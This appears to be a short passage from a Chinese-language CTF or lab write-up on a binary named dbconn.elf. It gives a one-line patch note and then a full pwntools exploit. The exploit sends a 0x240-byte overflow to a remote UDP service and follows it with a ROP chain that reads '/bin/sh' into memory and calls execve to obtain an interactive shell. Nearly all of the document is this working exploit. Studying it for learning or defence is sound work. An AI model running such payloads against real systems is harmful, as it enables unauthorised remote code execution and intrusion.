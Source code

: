 ```c
```



修補方式很簡單，只需要把 `0x1000` patch 成 `0x200` 即可。



exploit 如下：

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']
r = remote('7.7.6.2', 3333, typ='udp')
#r = process('./dbconn.elf')
#gdb.attach(r, "")

syscall = 0x52b7b5
pop_rdi_ret = 0x4067ba
pop_rsi_ret = 0x5269d4
pop_rdx_ret = 0x40605f
pop_rax_ret = 0x40b3f7
ret = 0x40101f
bss = 0xfb6ff0
rop = flat([
    pop_rax_ret,
    0,
    pop_rdi_ret,
    0,
    pop_rsi_ret,
    bss,
    pop_rdx_ret,
    0x300,
    syscall,

    pop_rax_ret,
    0x3b,
    pop_rdi_ret,
    bss,
    pop_rsi_ret,
    0,
    pop_rdx_ret,
    0,
    syscall,
])
payload = b'a'*0x240 + rop
input()
r.sendline(payload)
input('>')
r.sendline('/bin/sh\x00')
r.interactive()
```
